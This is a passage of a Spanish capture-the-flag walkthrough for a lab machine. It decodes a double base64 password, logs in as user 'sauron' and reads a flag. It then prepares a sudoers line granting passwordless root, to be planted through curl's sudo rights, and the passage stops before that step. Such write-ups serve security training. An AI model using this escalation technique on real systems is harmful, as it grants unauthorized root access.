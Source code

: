 Vemos que nos ha dado un `.txt` si lo leemos veremos lo siguiente:

```
ZVZoTFRYYzFkM0JUUVhKTU1rTk1XQW89Cg==
```

Vemos que esta codificado en `Base64` por lo que vamos a decodificarlo desde nuestro `host`:

```shell
echo 'ZVZoTFRYYzFkM0JUUVhKTU1rTk1XQW89Cg==' | base64 -d | base64 -d
```

Info:

```
yXKMw5wpSArL2CLX
```

Utilizo dos veces de decodificacion ya que esta dos veces codificado, vamos a probar a meter como contraseña del usuario `sauron` esa palabra.

```shell
su sauron
```

Metemos como contraseña `yXKMw5wpSArL2CLX` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
HMV{Y0uc4nN0tp4sS}
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for sauron on isengard:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sauron may run the following commands on isengard:
    (ALL) /usr/bin/curl
```

Veremos que podemos ejecutar el binario `curl` como el usuario `root`, por lo que podremos realizar esto.

```shell
cd /tmp
nano sauron

#Dentro del nano
sauron ALL=(ALL:ALL) NOPASSWD: ALL
```

Lo guardamos y haremos lo siguiente:
